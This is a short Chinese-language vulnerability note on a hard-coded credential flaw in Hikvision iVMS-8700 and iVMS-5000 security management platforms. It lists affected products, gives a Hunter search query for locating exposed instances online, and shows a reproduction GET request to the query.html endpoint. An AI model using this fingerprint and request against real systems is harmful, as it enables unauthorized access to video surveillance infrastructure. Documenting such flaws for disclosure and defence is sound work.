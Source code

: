# 海康威视iVMS-8700综合安防管理平台 query存在硬编码漏洞

# 一、漏洞简介
  海康威视iVMS集中监控应用管理平台，是以安全防范业务应用为导向，以视频图像应用为基础手段，综合视频监控、联网报警、智能分析、运维管理等多种安全防范应用系统，构建的多业务应用综合管理平台。海康威视iVMS-8700综合安防管理平台 query存在硬编码漏洞。

# 二、影响版本
+ 海康威视综合安防系统iVMS-5000
+ 海康威视综合安防系统 iVMS-8700

# 三、资产测绘
+ hunter：`web.body="/views/home/file/installPackage.rar"`

![1691851218187-fa3d0a98-32b2-48ea-a294-7c7f565c20f0.png](./img/5yqB1RcwhpNKCqwa/1691851218187-fa3d0a98-32b2-48ea-a294-7c7f565c20f0-062927.png)

+ 登录页面：

![1691851119101-58fb28dd-18f8-4fca-b027-9931d8ce0111.png](./img/5yqB1RcwhpNKCqwa/1691851119101-58fb28dd-18f8-4fca-b027-9931d8ce0111-896124.png)

# 四、漏洞复现
```java
GET /gisplatform/hikgis/query.html HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

![1711372755485-c9d6f5bd-773e-4956-978f-26fa8800d026.png](./img/5yqB1RcwhpNKCqwa/1711372755485-c9d6f5bd-773e-4956-978f-26fa8800d026-512825.png)





> 更新: 2024-06-01 11:04:36  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zv2apf24gb0ynffw>